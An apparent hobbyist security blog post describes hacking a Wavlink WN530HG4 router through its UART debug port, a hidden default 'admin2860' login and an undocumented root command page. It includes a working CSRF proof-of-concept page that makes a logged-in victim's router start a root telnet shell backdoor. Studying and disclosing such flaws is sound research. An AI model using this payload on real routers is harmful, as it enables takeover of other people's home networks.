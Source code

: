 +++
date = "2020-09-06"
title = "Router hacking!"
slug = "Hacking the Wavlink WN530HG4"
tags = [
]
categories = [
]
externalLink = ""
series = []
+++
*Hello.*

I like to hack SoHo (small-office home-office) routers for fun, and I’ve recently acquired the “WAVLINK AC1200 Dual Band WiFi Router,Gigabit Ethernet 1200Mbps High Speed Long Range 300 Mbps (2.4GHz)+867 Mbps (5GHz), Wireless Internet Router for Home Office”. You can take a look at the device for sale [here](https://www.amazon.com/WAVLINK-Extender-Coverage-1200Mbps-Wireless/dp/B07THZ9LBK/ref=sr_1_3?dchild=1&keywords=wavelink+router&qid=1599340954&sr=8-3).

This will be a three part blogpost. The first part  will be about publicly known vulnerabilities I found immediately. The second will be about anything I found on a deeper dive into the device’s file system. Post three will be a full audit of the device in accordance with OWASP IoT top vulnerabilities such as those listed [here](https://wiki.owasp.org/index.php/OWASP_Internet_of_Things_Project#tab=IoT_Top_10). 

To begin, a quick google search of the device brings up an interesting group of vulnerabilities:

- [/adm.cgi endpoint that processes commands without verifying their origin](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10971&scoretype=cvssv2)

- [unauthenticated system information disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-12266&scoretype=cvssv2)

- [unauthenticated administrator password disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10974&scoretype=cvssv2)

Unfortunately the actual exploitation of the issues is not well documented, so I decided to investigate this device to see for myself how they were exploited. First, I would need to interface with the device's on-board operating system.

To do that, we need to pop open the device and take a look at the circuit board. A lot of modern routers like to keep the top of its plastic shell in place with screws which they hide under some stickers. I found this router’s screws on the bottom of the plastic casing.

![Bottom of the router. The red light shining through is where the screw used to be!](../post2/1.jpg)

Once those are gone, we can set about looking at the router’s guts. Here’s a pic of the circuit board.

![The Wavlink router's circuit board.](../post2/2.jpg)

And look here, in the upper right corner. This is a debugging interface for the manufacturers who program this circuit board. These four ports here are a UART interface, which stands for universal asynchronous receiver-transmitter, a computer hardware device for asynchronous serial communication in which the data format and transmission speeds are configurable (more on that in transmission speed in a bit). 

![The UART interface on the circuit board.](../post2/3.jpg)

In layman’s terms, if we connect "something" that can talk to UART, and then have that same "something" also be able to talk to our computer, then we can use our computer to talk to the circuit board’s operating system. So what can we use to do that? We can use a [this](https://www.amazon.com/gp/product/B00IJXZQ7C/ref=ppx_yo_dt_b_search_asin_title?ie=UTF8&psc=1)!

![Yaaaarrrrrr, the buspirate!](../post2/4.jpg)

The HiLetgo FT232RL adapter is a hacker multi-tool that talks to electronic stuff, such as our UART port here. Connecting our adapter to the UART port requires us to solder some jumper wires from the UART interface… 

![Soldered jumper wires on the UART interface.](../post2/5.jpg)

...which will connect to the pointy end here on our adapter.

![Connecting our jumper wires from the board to the adapter.](../post2/6.jpg)

So, now that we have our adapter connected, let’s turn on the router and see what happens. We’ve set up our computer to receive the signal from our adapter, but we aren’t certain about the baud rate being used. In digital communications, symbol rate, also known as baud rate and modulation rate, is the number of symbol changes, waveform changes, or signaling events across the transmission medium per time unit using a digitally modulated signal or a line code (remember when we mentioned signal transmission speed earlier?). We don’t know how fast the signal coming from the board is to our adapter, so if we don’t tune the connection to our adapter with the proper baud rate, we will get a bunch of gobbledygook like in the following screenshot.

![Our adapter is tuned to the wrong baud rate, so it interprets the board's signal incorrectly.](../post2/7.jpg)

But, after some tedious trial and error, we have identified the baud rate as 57600. Once we modify our computer’s receive (the Linux program ‘screen’) to interpret the signal correctly, we get some nice, human-readable terminal output!

![After the baud rate is set correctly, we can see the UART output!](../post2/8.jpg)

Great! So if we wait long enough, we will eventually be asked for our Wavlink login. 

![What could the username/password be?](../post2/9.jpg)

But we don’t know the admin account name. Luckily, when we connect to the access point and configure the login password for the web app…

![Setting the router config password.](../post2/10.jpg)

We get this helpful message in the UART output.

![The UART output with a suspicious username parameter.](../post2/11.jpg)

Now, at no point during the WAP wizard was I asked for a username, but here we can see the username parameter of “admin2860” being transmitted through UART output. So, maybe we can just login with that?

![Will admin2860 work?](../post2/12.jpg)

Great! We've logged in and now have root access to the device. Let’s sniff around and see if we find anything really stupid, like those VulnMon entries we discovered earlier.

Eventually, we find the web directory, and there’s a lot in here. After some poking around, we find this (undocumented in the user manual!) webpage called “webcmd.shtml”.

![Sniffing around the router's filesystem.](../post2/13.jpg)

If we bring up “webcmd.shtml” in our browser we see...this.

![WTF???!!](../post2/14.jpg)

Wow, so we can just pass system commands to the underlying operating system! Does it work…?

![WTF???!!!?!?!?!?!?](../post2/15.jpg)

Wow, so we can read the systems password file, so everything runs as root (like the Administrator account in Windows). Nice one, Wavlink. If we inspect the web page’s HTML here, we can see that it makes a POST request to the “/cgi-bin/adm.cgi” endpoint. That endpoint is in one of the Vulnmon entries earlier in this post, so this must be vulnerable to Cross Site Request Forgery (CSRF).

![Inspecting the web page's HTML.](../post2/16.jpg)

In applications that are vulnerable to Cross Site Request Forgery (CSRF), an attacker can craft a malicious webpage that, when viewed by the victim, will force their browser to make a request to the vulnerable endpoint.

Earlier while I was digging through the filesystem, I found that the Telnet daemon, a legacy networking server, was installed on the Wavlink router. Let’s see if we can make a malicious webpage that fires off a request to “webcmd” from our victim that will force the router to open up a Telnet backdoor. 

Here’s what the malicious webpage might look like.

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.10.1/cgi-bin/adm.cgi" method="POST">
      <input type="hidden" name="page" value="sysCMD" />
      <input type="hidden" name="command" value="telnetd&#32;&#45;l&#32;&#47;bin&#47;sh&#32;&#45;p&#32;1234" />
      <input type="hidden" name="SystemCommandSubmit" value="Apply" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

And here’s the attack in action. Here, I’m simulating our victim, currently logged into the router…

![Our innocent victim, logged into their router.](../post2/17.jpg)

...but opening up our malicious webpage, which will send a request to the vulnerable endpoint in the context of the user’s session!

![Triggering the CSRF payload.](../post2/18.jpg)

![Our telnet backdoor, visible in the device's process list.](../post2/19.jpg)

And now, even though we get a 404 error from the web server, we can see (red box) that the telnet backdoor has been opened. We connect, and now we have pwned the device!

![Viewing the open port on a network scan.](../post2/20.jpg)

![Connecting to our telnet backdoor.](../post2/21.jpg)

That’s all for now! Stay tuned for part two where I review a bunch of executables and shell scripts on the Wavlink router for awful security practices!

*Goodbye.*
